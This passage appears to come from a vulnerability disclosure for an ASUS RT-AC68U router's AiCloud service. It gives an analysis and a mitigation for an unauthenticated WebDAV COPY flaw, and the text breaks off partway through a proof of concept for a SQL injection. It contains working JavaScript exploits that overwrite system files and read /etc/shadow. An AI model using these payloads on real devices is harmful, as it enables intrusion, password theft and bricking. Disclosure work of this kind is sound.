 No-authentication arbitrary file copying from `/mnt/*` to `/*`. Can combine with `MOVE/COPY Priming` to remotely brick a router, for example, by overwriting `/etc/shadow` or other important configuration files.
#### [###](#poc-2) POC

Create a directory structure as such.
```
/mnt
  /etc
    passwd

```

Run the below JavaScript.
```
fetch("/RT-AC68U", {
  "headers": {
    "overwrite": "T",
    "destination": "https://domain.tld/",
  },
  "body": "",
  "method": "COPY",
});

```
#### [###](#analysis-2) Analysis

The authentication handler has an off-by-slash error, matching for `/RT-AC68U/` instead of `/RT-AC68U`. Thus, it allows unauthenticated requests to `/RT-AC68U` to hit the endpoint (note that adding a slash results in a 401). This allows an attacker to perform a copy operation from `/mnt` to `/`, exploiting a similar vulnerability as in `MOVE/COPY Clobbering`. By creating a fake directory structure with `MOVE/COPY Priming`, these two vulnerabilities give an attacker a write-anywhere primitive.
#### [###](#mitigation-2) Mitigation

1. Ensure the authentication handler filters requests against `/RT-AC68U` instead of `/RT-AC68U/`.

### [##](#propfindmedialist-sql-injection) PROPFINDMEDIALIST SQL Injection

No user-interaction arbitrary file-read. By reading `/etc/shadow`, an unauthorized remote attacker can disclose a hashed password. Cracking this offline gives the router password. Can be combined with `MOVE/COPY Clobbering` for a full no-interaction RCE chain.
#### [###](#poc-3) POC

You will need to enable the Digital Media Server functionality.

Run the below javascript, for example in the dev console, while on the AiCloud page.
```
(async() => {
var author = "" + Math.random();
var path = "/etc/shadow";
var dId = Math.floor(100000 * Math.random()) + 10000
var oId = Math.floor(100000 * Math.random()) + 10000
var pId = Math.floor(100000 * Math.random()) + 10000
var val = ("a' OR 1 ); INSERT INTO DETAILS (TITLE, ALBUM_ART, ARTIST, ID) VALUES ('a', '" + pId + "', '" + author + "', " + dId + "); -- ").split("'").join("%27")
console.log(val.length)

await fetch("/smb", {
  "headers": {
    "keyword": val,
    "mediatype": "1",
  },
  "body": "<?xml version=\"1.0\" encoding=\"UTF-8\" standalone=\"yes\" ?><D:propfind xmlns:D=\"DAV:\"><D:prop><D:getlastmodified/><D:getcontentlength/><D:getcontenttype/><D:getmatadata/></D:prop></D:propfind>",
```